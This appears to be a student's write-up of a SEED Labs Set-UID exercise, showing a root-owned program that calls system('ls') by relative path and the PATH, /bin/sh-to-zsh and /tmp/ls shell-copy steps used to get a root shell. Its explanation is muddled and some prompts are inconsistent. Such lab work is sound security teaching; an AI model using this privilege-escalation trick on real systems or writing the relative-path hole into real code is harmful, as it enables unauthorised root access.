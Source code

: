 ```sh
export PATH=/home/seed:$PATH
```

The Set-UID program below is supposed to execute the `/bin/ls` command; however, the programmer only uses the relative path for the `ls` command, rather than the absolute path:

```c
int main()
{
    system("ls");
    return 0;
}
```

Compile the above program, and change its owner to root, and make it a Set-UID program. Can you let this Set-UID program run your code instead of `/bin/ls`? If you can, is your code running with the root privilege?

The solution:

```sh
[09/21/22]seed@VM:~$  vim task6.c
[09/21/22]seed@VM:~$  gcc -o task6 task6.c
[09/21/22]seed@VM:~$  chmod u+s task6
[09/21/22]seed@VM:~$  exit
exit
[09/21/22]seed@VM:~$ ./task6 
Desktop		  openssl-1.0.1				   task6
Documents	  openssl_1.0.1-4ubuntu5.11.debian.tar.gz  task6.c
```
Yes it can, set-uid can run the program /bin/ls with a relative path, for root privileges no, in task 6 it has been explained in the note for ubuntu. When we run set-uid the program will be countermeasure we can't run it which theoretically can get root privileges, to be able to run set-uid with root privileges, SEEDlabs has provided a shell program called zsh to replace /bin/sh.

to be able to run the set-UID program:
we link /bin/sh to /bin/zsh

```sh
[09/21/22]seed@VM:~$  rm /bin/sh
[09/21/22]seed@VM:~$  ln -s zsh sh
```

we try to run the ls program above with zsh

```sh
[09/21/22]root@VM:/tmp#  vim ls.c
[09/21/22]root@VM:/tmp#  gcc ls.c -o system
```

```sh
[09/21/22]seed@VM:/tmp# cp /bin/sh /tmp/ls
[09/21/22]seed@VM:/tmp# ./system
ls
ls.c
system
```
with zsh shell we can get root shell, but with native shell of ubuntu we can't get root shell.

